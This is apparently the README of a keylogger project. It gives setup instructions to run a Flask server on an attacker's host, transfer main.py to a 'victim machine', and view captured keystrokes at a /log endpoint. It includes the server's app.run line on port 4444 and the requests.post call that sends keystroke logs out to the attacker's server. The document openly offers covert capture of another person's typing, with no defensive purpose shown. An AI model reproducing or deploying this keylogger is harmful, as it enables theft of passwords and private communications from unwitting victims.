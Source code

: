 **Setup:**
1) Install Flask server on your host machine : pip install Flask
2) Run the server: python server.py
3) Transfer the main.py to victim machine
4) Run main.py on victim machine : python main.py
5) Accessing the Logs:
To view the logs collected by the server, follow these steps:
Open a Web Browser: Launch your preferred web browser (e.g., Chrome, Firefox, Safari).
Visit the URL: Enter the following URL in the address bar: http://<host ip>:<port>/log
As soon as your victim starts typing your log file on your server will be updated. (if not refresh the page)
----------------------------------------------------------------------------------------------------------------
In the server.py file, you can change the port number to your desired value. For example:
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4444)

and In the main.py file, update the URL in the requests.post call to match the server's IP address and port number. For example:
**try:
    requests.post('http://<host_ip>:<port_number>/log', data={'log': log_data})**
Replace <host_ip> with the server's IP address and <port_number> with the port number specified in your server.py (e.g., 4444).
